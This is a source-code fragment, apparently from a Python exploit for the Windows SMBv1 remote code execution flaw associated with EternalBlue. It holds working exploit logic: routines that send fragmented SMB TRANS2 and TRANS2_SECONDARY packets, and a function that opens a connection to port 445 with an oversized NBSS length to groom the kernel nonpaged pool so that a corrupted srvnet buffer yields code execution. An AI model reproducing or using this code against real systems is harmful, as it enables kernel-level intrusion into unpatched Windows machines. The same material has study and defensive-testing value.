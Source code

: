 ```
	if len(data) > 0:
		pad2Len = (4 - (fixedOffset + padLen + len(param)) % 4) % 4
		transCommand['Data']['Pad2'] = '\xFF' * pad2Len
	else:
		transCommand['Data']['Pad2'] = ''
		pad2Len = 0

	transCommand['Parameters']['DataCount'] = firstDataFragmentSize
	transCommand['Parameters']['DataOffset'] = transCommand['Parameters']['ParameterOffset'] + len(param) + pad2Len

	transCommand['Data']['Trans_Parameters'] = param
	transCommand['Data']['Trans_Data'] = data[:firstDataFragmentSize]
	pkt.addCommand(transCommand)

	conn.sendSMB(pkt)
	conn.recvSMB() # must be success
	
	# Then, use SMB_COM_TRANSACTION2_SECONDARY for send more data
	i = firstDataFragmentSize
	while i < len(data):
		# limit data to 4096 bytes per SMB message because this size can be used for all Windows version
		sendSize = min(4096, len(data) - i)
		if len(data) - i <= 4096:
			if not sendLastChunk:
				break
		send_trans2_second(conn, tid, data[i:i+sendSize], i)
		i += sendSize
	
	if sendLastChunk:
		conn.recvSMB()
	return i

	
# connect to target and send a large nbss size with data 0x80 bytes
# this method is for allocating big nonpaged pool (no need to be same size as overflow buffer) on target
# a nonpaged pool is allocated by srvnet.sys that started by useful struct (especially after overwritten)
def createConnectionWithBigSMBFirst80(target):
	# https://msdn.microsoft.com/en-us/library/cc246496.aspx
	# Above link is about SMB2, but the important here is first 4 bytes.
	# If using wireshark, you will see the StreamProtocolLength is NBSS length.
	# The first 4 bytes is same for all SMB version. It is used for determine the SMB message length.
	#
	# After received first 4 bytes, srvnet.sys allocate nonpaged pool for receving SMB message.
	# srvnet.sys forwards this buffer to SMB message handler after receiving all SMB message.
	# Note: For Windows 7 and Windows 2008, srvnet.sys also forwards the SMB message to its handler when connection lost too.
	sk = socket.create_connection((target, 445))
	# For this exploit, use size is 0x11000
	pkt = '\x00' + '\x00' + pack('>H', 0xfff7)
	# There is no need to be SMB2 because we got code execution by corrupted srvnet buffer.
	# Also this is invalid SMB2 message.
	# I believe NSA exploit use SMB2 for hiding alert from IDS
	#pkt += '\xfeSMB' # smb2
	# it can be anything even it is invalid
	pkt += 'BAAD' # can be any
	pkt += '\x00'*0x7c
	sk.send(pkt)
	return sk
```